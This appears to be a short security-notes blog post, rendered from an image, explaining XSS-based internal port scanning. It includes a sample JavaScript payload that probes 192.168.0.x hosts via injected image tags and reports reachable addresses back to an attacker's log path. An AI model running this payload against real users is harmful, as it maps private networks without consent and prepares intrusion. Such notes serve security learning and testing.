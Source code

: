 ```yaml
---
layout: post
title: XSS Port Scanning
description: XSS Port Scanning
summary: XSS Port Scanning
tags: [web,enum,foothold,xss]
minute: 1
---
```

## Overview
An attacker which is outside of your internal network can force you to browse a webpage containing malicuous javascript.

This javascript code will scan your internal network and sends result back to attacker.

## Sample Code
```javascript
<script>
  for (let i = 0; i < 256; i++) {
    let ip = '192.168.0.' + i

    let code = '<img src="http://' + ip + '/favicon.ico" onload="this.onerror=null; this.src=/log/' + ip + '">'
    document.body.innerHTML += code
 }
</script>
```

![](/spindel/assets/XSS%20Port%20Scanning/23CD500A-C9DD-4F00-A473-8A1F9AE4F120.png)

## References
* https://neonprimetime.blogspot.com/2015/09/cross-site-scripting-xss-that-port-scans.html

